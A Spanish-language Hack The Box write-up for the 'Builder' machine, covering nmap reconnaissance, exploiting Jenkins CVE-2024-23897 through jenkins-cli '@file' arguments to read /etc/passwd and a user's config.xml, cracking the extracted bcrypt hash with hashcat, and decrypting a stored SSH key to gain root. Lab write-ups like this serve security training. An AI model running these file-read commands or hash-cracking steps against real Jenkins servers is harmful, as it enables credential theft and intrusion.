


<h3 style="text-align:center">DESCRIPCIÓN</h3><hr>

Builder es una máquina Linux de dificultad media que cuenta con una instancia de Jenkins. La instancia Jenkins es vulnerable a la vulnerabilidad [CVE-2024-23897] https://www.cvedetails.com/cve/[CVE-2024-23897] https://nvd.nist.gov/vuln/detail/CVE-2024-23897 que permite a usuarios no autenticados leer archivos arbitrarios en el sistema de archivos del controlador Jenkins. Un atacante es capaz de extraer el hash del nombre de usuario y contraseña del usuario de Jenkins `jennifer`. Utilizando las credenciales para iniciar sesión en la instancia remota de Jenkins, se explota una clave SSH cifrada para obtener acceso root en la máquina host.


<h3 style="text-align:center">INDICE</h3><hr>

- [Reconocimiento](#fase-de-reconocimiento)
    - [Enumeración de puertos](#enumeracion-de-puertos)
    - [Enumeración de servicios](#enumeracion-de-servicios)
- [Explotación](#explotacion)
- [Escalada de privilegios](#escalada-de-privilegios)
- [Autores y referencias](#autores-y-referencias)


<h3 style="text-align:center" id="fase-de-reconocimiento">RECONOCIMIENTO</h3><hr>

El objetivo principal de la etapa de reconocimiento es obtener una visión general de la infraestructura, sistemas, aplicaciones y posibles puntos débiles de la organización o sistema que se va a someter a la prueba de penetración. Esta información es esencial para planificar y ejecutar el resto del proceso de pentesting de manera más efectiva.

Durante la etapa de reconocimiento, el equipo de pentesting puede realizar diferentes acciones y técnicas, que incluyen:

1.Búsqueda de información pública: Se recopila información de dominios, subdominios, direcciones IP, registros de DNS, información de contacto de la empresa, etc., que está disponible públicamente a través de fuentes como el sitio web de la empresa, registros WHOIS, redes sociales, motores de búsqueda, entre otros.

2.Escaneo de red: Se utilizan herramientas de escaneo de puertos y servicios para identificar los sistemas en línea y los puertos abiertos en el objetivo. Esto ayuda a tener una idea de la infraestructura de red y los servicios disponibles.

3.Enumeración de servicios: Una vez identificados los servicios y puertos abiertos, se intenta obtener información más detallada sobre los servicios, como las versiones de software, para determinar si existen vulnerabilidades conocidas asociadas con esos servicios.

4.Búsqueda de subdominios y directorios ocultos: Se busca información adicional sobre posibles subdominios, directorios ocultos o páginas web no enlazadas públicamente, lo que podría revelar puntos de entrada adicionales o información sensible.

5.Análisis de arquitectura de red: Se investiga la topología de la red para comprender la relación entre diferentes sistemas y cómo se conectan, lo que ayuda a identificar posibles rutas para movimientos laterales.

6.Búsqueda de vulnerabilidades conocidas: Se investigan bases de datos de vulnerabilidades conocidas y bases de datos de exploits para identificar posibles vulnerabilidades que puedan existir en el software o servicios utilizados por el objetivo.

- Lo primero que vamos hacer es un ping a la maquina victima ping -c 1 10.10.11.10 ping: Es el comando utilizado para enviar solicitudes de eco (ping) a una dirección IP específica para verificar la conectividad de red y la latencia de la conexión. -c 1: Es una opción que se utiliza para especificar el número de solicitudes de eco que se enviarán. En este caso, se envía solo una solicitud (-c 1). 10.10.11.10: Es la dirección IP del host o máquina que será objeto del comando ping.

```ruby
❯ ping -c 1 10.10.11.10
PING 10.10.11.10 (10.10.11.10) 56(84) bytes of data.
64 bytes from 10.10.11.10: icmp_seq=1 ttl=63 time=182 ms

--- 10.10.11.10 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 181.526/181.526/181.526/0.000 ms
```
El TTL---> 63 indica que es una máquina Linux

Con whichSytem.py nos arroja ante que nos estamos enfrentando con solo poner la dirección ip.
```ruby
❯ whichSystem.py 10.10.11.10
10.10.11.10 (ttl -> 63): Linux

```

Si quieren esa utilidad la guardan en el -usr-bin
```python
#!/usr/bin/python3
#coding: utf-8

import re, sys, subprocess

# python3 wichSystem.py 10.10.10.188 

if len(sys.argv) != 2:
    print("\n[!] Uso: python3 " + sys.argv[0] + " <direccion-ip>\n")
    sys.exit(1)

def get_ttl(ip_address):

    proc = subprocess.Popen(["/usr/bin/ping -c 1 %s" % ip_address, ""], stdout=subprocess.PIPE, shell=Tr
    (out,err) = proc.communicate()

    out = out.split()
    out = out[12].decode('utf-8')

    ttl_value = re.findall(r"\d{1,3}", out)[0]

    return ttl_value

def get_os(ttl):

    ttl = int(ttl)

    if ttl >= 0 and ttl <= 64:
        return "Linux"
    elif ttl >= 65 and ttl <= 128:
        return "Windows"
    else:
        return "Not Found"

if __name__ == '__main__':

    ip_address = sys.argv[1]

    ttl = get_ttl(ip_address)

    os_name = get_os(ttl)
    print("%s (ttl -> %s): %s" % (ip_address, ttl, os_name))
```

<h3 style="text-align:center" id="enumeracion-de-puertos">ENUMERACIÓN DE PUERTOS</h3><hr>
Realizamos un escaneo de puertos usando la herramienta `nmap`:

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.10 -oG scanPorts`

Veamos el significado de cada opción utilizada en el comando:

- `nmap`: Es el comando para ejecutar la herramienta de escaneo de puertos `nmap`.
    
- `-p-`: Esta opción indica que se deben escanear todos los puertos, es decir, desde el puerto 1 hasta el puerto 65535.
    
- `--open`: Filtra los resultados del escaneo para mostrar solo los puertos que están abiertos, es decir, aquellos que responden a la solicitud de escaneo.
    
- `-sS`: Indica un escaneo de tipo “SYN scan”. Este tipo de escaneo envía paquetes SYN (sincronización) a los puertos y analiza las respuestas para determinar si están abiertos, cerrados o filtrados por firewall.
    
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes. En este caso, se envían al menos 5000 paquetes por segundo.
    
- `-vvv`: Habilita el modo de salida muy detallado, lo que significa que se mostrarán niveles de verbosidad muy altos para obtener información detallada del escaneo.
    
- `-n`: Indica que no se realice la resolución de DNS para las direcciones IP, lo que acelera el escaneo.
    
- `-Pn`: Esta opción indica que no se realice el “ping” para determinar si los hosts están en línea o no. Se ignoran las respuestas del ping y se escanea directamente.
    
- `10.10.11.10`: Es la dirección IP del objetivo que será escaneado.
    
- `-oG scanPorts`: Especifica que se debe guardar la salida del escaneo en un formato “grepable” (formato de texto plano) con el nombre de archivo “scanPorts”.

```ruby
❯ nmap -p- --open -sS -min-rate 5000 -vvv -n -Pn 10.10.11.10 -oG scanPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 15:56 -05
Initiating SYN Stealth Scan at 15:56
Scanning 10.10.11.10 [65535 ports]
Discovered open port 22/tcp on 10.10.11.10
Discovered open port 8080/tcp on 10.10.11.10
Completed SYN Stealth Scan at 15:56, 17.20s elapsed (65535 total ports)
Nmap scan report for 10.10.11.10
Host is up, received user-set (0.17s latency).
Scanned at 2024-03-10 15:56:07 -05 for 17s
Not shown: 56112 closed tcp ports (reset), 9421 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 62

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 17.32 seconds
           Raw packets sent: 84423 (3.715MB) | Rcvd: 62490 (2.500MB)
```

Escaneamos al objetivo con los scripts básicos de reconocimiento de nmap, apuntando a los puertos abiertos en busca de más información. Los resultados incluirán información sobre los servicios que se están ejecutando en los puertos escaneados y sus versiones correspondientes.

`nmap -sCV -p22,80,4567 10.10.11.10 -oN targeted`

```ruby
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Dashboard [Jenkins]
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.18)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.83 seconds```
```
- Tenemos el puerto 22 abierto SSH pero como la versión es mayor a la 7.7 no  realizar enumeración de usuarios, no tenemos credenciales de ingreso
- Tenemos el puerto 8080, lo que nos  indica que es un servicio web.
- y el puerto 4567 WEBrick


<h3 style="text-align:center" id="enumeracion-de-servicios">ENUMERACIÓN DE SERVICIOS</h3><hr>


- Con whatweb podemos realizar un escaneo para ver las tecnologías que están corriendo por detrás, las versiones. 

```ruby
❯ whatweb http://10.10.11.10:8080
http://10.10.11.10:8080 [200 OK] Cookies[JSESSIONID.b686fb0d], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.b686fb0d], IP[10.10.11.10], Jenkins[2.441], Jetty[10.0.18], OpenSearch[/opensearch.xml], Script[application/json,text/javascript], Title[Dashboard [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson-theme,referrer-policy,cross-origin-opener-policy,x-hudson,x-jenkins,x-jenkins-session,x-instance-identity], X-Frame-Options[sameorigin]
```

Que es Jenkins?
Jenkins es un servidor open source para la integración continua. Es una herramienta que se utiliza para compilar y probar proyectos de software de forma continua, lo que facilita a los desarrolladores integrar cambios en un proyecto y entregar nuevas versiones a los usuarios. Escrito en Java, es multiplataforma y accesible mediante interfaz web. Es el software más utilizado en la actualidad para este propósito.

Con Jenkins, las organizaciones aceleran el proceso de desarrollo y entrega de software a través de la automatización. Mediante sus centenares de plugins, se puede implementar en diferentes etapas del ciclo de vida del desarrollo, como la compilación, la documentación, el testeo o el despliegue.


- La pagina nos dice la versión que es jenkins 2.441, podemos buscar vulnerabilidades, en github existe un exploit en python de h4x0r-dz [https://github.com/CKevens/CVE-2024-23897](https://github.com/CKevens/CVE-2024-23897) que vamos a usar.

- `java -jar jenkins-cli.jar -s http://10.10.11.10:8080` Con esta linea de comandos nos arroja una serie de instrucciones que puedo usar.

- De acuerdo al uso de estas instrucciones  puedo ver mas líneas a la hora de querer cargar un archivo, nos creamos un scrip en bahs para ver cuantas líneas me devuelve cada comando.
```ruby
 #!/usr/bin/bash
 
 
 for command in $(java -jar jenkins-cli.jar -s http://10.10.11.10:8080 2>&1 | grep -v "    " | xargs | tr ' ' '\n');do
 
   echo "[+] Para el comando $command: $(java -jar jenkins-cli.jar -s http://10.10.11.10:8080 $command @/etc/passwd 2>&1 | wc -l )";
  
 done
```

- Podemos ver que la instrucción connect-node como también delete-job puede enlistar 21 líneas, lo que nos permite ver mas contenido. 

```ruby
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080 delete-job @/etc/passwd 2>&1 | grep -oP "'.*?'"
'www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin'
'root:x:0:0:root:/root:/bin/bash'
'mail:x:8:8:mail:/var/mail:/usr/sbin/nologin'
'backup:x:34:34:backup:/var/backups:/usr/sbin/nologin'
'_apt:x:42:65534::/nonexistent:/usr/sbin/nologin'
'nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin'
'lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin'
'uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin'
'bin:x:2:2:bin:/bin:/usr/sbin/nologin'
'news:x:9:9:news:/var/spool/news:/usr/sbin/nologin'
'proxy:x:13:13:proxy:/bin:/usr/sbin/nologin'
'irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin'
'list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin'
'jenkins:x:1000:1000::/var/jenkins_home:/bin/bash'
'games:x:5:60:games:/usr/games:/usr/sbin/nologin'
'man:x:6:12:man:/var/cache/man:/usr/sbin/nologin'
'daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin'
'sys:x:3:3:sys:/dev:/usr/sbin/nologin'
'sync:x:4:65534:sync:/bin:/bin/sync'
                                                                                                       
```

- Por la estructura del passwd pareciera que es un contenedor ya que no vemos nombre de usuarios si no el root y el jenkins, de igual manera lo podemos comprobar enlistando el hostname

```ruby
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080 delete-job @/etc/hostname 2>&1 | grep -oP "'.*?'"
'0f52c222a4cc'
```
- Ese numero identificativo nos indica que es un contenedor, otra manera de comprobarlo es enlistando el fib_trie para ver el arbol de direccionamiento ip:

- Vemos  que la ip local es diferente a la ip de la maquina victima, por lo tanto debemos escapar del contenedor. 
- Si no sabemos como funciona jenkins por detras lo que podemos hacer es montar un jenkins en un contenedor docker y ver que archivos aloja.
[https://github.com/jenkinsci/docker](https://github.com/jenkinsci/docker) 

```ruby
docker run -p 8080:8080 -p 50000:50000 --restart=on-failure jenkins/jenkins:lts-jdk17
```


- Nos indica que se creo el usuario y creo una contraseña y nos da la ruta donde se guarda dicha contraseña  9ebc9645c32e49a3a3d7d37429111075

- Se esta aplicando port forwarding en nuestra local host, instalamos todo. 

- `docker ps | less -s `  

- Tenemos el nombre del contenedor, y ahora ya todo instalado, vamos a ver donde se alojan las credenciales para ver si podemos sacar esa información. 
- `docker exec -it elated_noyce bash` para pedir una bash de manera interactiva.
- Que podemos hacer para saber donde están las credenciales de acceso.
1. Buscar en el directorio de trabajo archivos que contengan la palabra "balthael" que es el nombre de usuario de manera recursiva para que me enliste el nombre de los archivo y su ubicación. `grep -r "balthael" -l`

2. Vamos a ver `users/balthael_13955570488845828881/config.xml` 

- Vemos un password hash que podriamos intentar crakear, pero de donde viene el nombre identificativo de esa carpeta que aloja el config.xml?
3. Vemos el archivo `users/users.xml` y nos muestra el nombre del directorio.


- Como ya sabemos donde puede estar ese recurso, vamos a intentar verlo en el contenedor de la maquina victima.

- Ya sabemos como se llama la carpeta.
```ruby
ava -jar jenkins-cli.jar -s http://10.10.11.10:8080 delete-job @/var/jenkins_home/users/jennifer_12108429903186576833/config.xml 2>&1 | grep -oP "'.*?'"
```


`$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a` 
- Usaremos hashcat para hacerlo desencriptar el password:
1. Identificamos el tipo de hash 
```ruby
❯ hashid '$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a'
Analyzing '$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```

- Nos pone que el tipo de hash es bcrypt, ahora realizamos una busqueda del modo `hashcat --example-hashes | grep -i "bcrypt" -B 5` 


```ruby
hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
```


<h3 style="text-align:center" id="explotacion">EXPLOTACIÓN</h3><hr>

La fase de explotación en una prueba de penetración (pentesting) es la etapa en la que los profesionales de seguridad intentan activamente aprovechar las vulnerabilidades identificadas en el sistema objetivo. En esta fase, los pentesters intentan explotar debilidades y brechas de seguridad con el objetivo de demostrar la capacidad de un atacante malintencionado para comprometer el sistema.

Aquí hay algunas actividades clave que suelen llevarse a cabo durante la fase de explotación:

Identificación de Vulnerabilidades: Después de completar la fase de escaneo, donde se identifican activos y servicios, se procede a identificar vulnerabilidades en esos servicios y aplicaciones. Esto puede hacerse mediante el uso de herramientas automáticas y análisis manual.

Selección de Objetivos: Con la información sobre las vulnerabilidades disponibles, los pentesters eligen objetivos específicos para intentar explotar. Esto puede incluir sistemas, aplicaciones o servicios específicos que son críticos para la organización.

Desarrollo de Exploits: Los pentesters pueden desarrollar o utilizar exploits existentes para aprovechar las vulnerabilidades identificadas. Un exploit es un conjunto de instrucciones o código diseñado para aprovechar una vulnerabilidad específica y lograr un objetivo, como obtener acceso no autorizado.

Ejecución de Exploits: Una vez que se tiene un exploit listo, se ejecuta contra los objetivos seleccionados. Esto implica intentar activamente aprovechar las vulnerabilidades para lograr un acceso no autorizado, escalada de privilegios u otros objetivos definidos en el alcance del pentesting.

Documentación: Se documentan cuidadosamente todas las actividades de explotación, incluidos los éxitos y los fallos. Esto ayuda a los equipos de seguridad a comprender cómo se podrían haber evitado los exploits y cómo mejorar la postura de seguridad.
- Intentamos  usar estas credenciales para ingresar al panel de administración de jenkins.

- Logramos conectarnos.
- En el panel de credenciales, hay una vulnerabilidad donde el código fuente me revela la clave privada ssh:

- Nos copiamos esa data.
- En el jenkins existe una consola que ejecuta scrtipts, y podemos aprovecharnos de esta consola para que por medio de un comando de Groovy pueda descifrar la clave. 

- Encontramos ese comando, y lo probamos para ver si podemos desencriptar el contenido. 


<h3 style="text-align:center" id="escalada-de-privilegios">ESCALADA DE PRIVILEGIOS</h3><hr>

- Logramos descifrar el contenido, lo guardamos como la id_rsa y le damos el permiso 600.


- Nos intentamos conectar por ssh proporcionando la clave privada. 


- Estamos dentro!
 

<h3 style="text-align:center" id="autores-y-referencias">AUTORES y REFERENCIAS</h3><hr>

Autor del write up: John Osorio (Balthael) <a href="https://app.hackthebox.com/profile/1366059" target="_blank">HTB</a>. Si quieres contactarme por cualquier motivo lo puedes hacer a través de <a href="https://www.instagram.com/joh_sb/" target="_blank">Instagram</a>.

Autor de la máquina:  <em>polarbearer & amra13579 </em>, muchas gracias por la creación de Builder, la disfrute mucho, aquí el link de la máquina <a href="https://app.hackthebox.com/machines/Builder" target="_blank">HTB</a>.
